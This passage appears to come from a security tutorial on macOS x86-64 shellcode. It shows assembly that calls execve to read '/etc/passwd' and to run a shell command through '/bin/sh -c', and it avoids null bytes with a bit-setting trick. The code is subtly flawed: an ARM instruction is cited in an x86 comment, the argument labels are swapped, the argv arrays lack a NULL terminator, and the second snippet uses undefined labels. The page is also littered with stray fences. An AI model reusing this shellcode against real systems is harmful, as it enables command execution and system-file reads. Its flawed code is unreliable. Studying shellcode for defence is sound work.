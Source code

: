 ```
#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48

    lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
    lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

    ; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
    push rsi   ; Add "/etc/passwd" to the stack (arg0)
    push rdi   ; Add "/bin/cat" to the stack (arg1)

    ; Set in the 2nd argument of exec the addr of the array
    mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

    xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

    push    59      ; put 59 on the stack (execve syscall)
    pop     rax     ; pop it to RAX
    bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
```
#### Invoke command with sh

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 32           ; Create space on the stack

    ; Argument array
    lea rdi, [rel touch_command]
    push rdi                      ; push &"touch /tmp/lalala"
    lea rdi, [rel sh_c_option]
    push rdi                      ; push &"-c"
    lea rdi, [rel sh_path]
    push rdi                      ; push &"/bin/sh"

    ; execve syscall
    mov rsi, rsp                  ; rsi = pointer to argument array
    xor rdx, rdx                  ; rdx = NULL (no env variables)
    push    59                    ; put 59 on the stack (execve syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

```